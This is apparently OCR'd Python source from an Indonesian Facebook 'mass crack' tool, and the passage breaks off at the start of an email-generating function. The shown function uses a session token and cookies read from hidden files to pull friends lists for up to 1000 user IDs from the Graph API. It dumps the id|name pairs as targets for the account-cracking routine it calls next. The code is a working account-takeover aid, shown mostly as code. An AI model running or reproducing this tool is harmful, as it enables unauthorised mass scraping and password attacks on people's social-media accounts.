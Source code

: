 #-------- Massal Crack ---------#
def massal():
	try:
		token = open('.token.txt','r').read()
		cok = open('.cok.txt','r').read()
	except IOError:
	    exit()
	try:
		kumpulkan = int(input(f'Mau Berapa ID ? : '))
	except ValueError:
	    exit()
	if kumpulkan<1 or kumpulkan>1000:
	    exit()
	ses=requests.Session()
	bilangan = 0
	for KOTG49H in range(kumpulkan):
		bilangan+=1
		Masukan = input(f'ID Ke  '+str(bilangan)+f' : ')
		uid.append(Masukan)
	for user in uid:
	    try:
	       head = (
	       {"user-agent": "Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Mobile Safari/537.36"
	       })
	       if len(id) == 0:
	           params = (
	           {
	           'access_token': token,
	           'fields': "friends"
	           }	          
	       )
	       else:
	           params = (
	           {
	           'access_token': token,
	           'fields': "friends"
	           }	           
	       )
	       url = requests.get('https://graph.facebook.com/{}'.format(user),params=params,headers=head,cookies={'cookies':cok}).json()
	       for xr in url['friends']['data']:
	           try:
	               woy = (xr['id']+'|'+xr['name'])
	               if woy in id:pass
	               else:id.append(woy)
	           except:continue
	    except (KeyError,IOError):
	      pass
	    except requests.exceptions.ConnectionError:
	        exit()
	try:
	      print("Total DUMP  : "+str(len(id))) 
	      setting()
	except requests.exceptions.ConnectionError:
	    exit()
	except (KeyError,IOError):
		exit()
#-------- EMAIL V2 ---------#
def mail2():
	dump=[]
	rc = random.choice
	rr = random.randint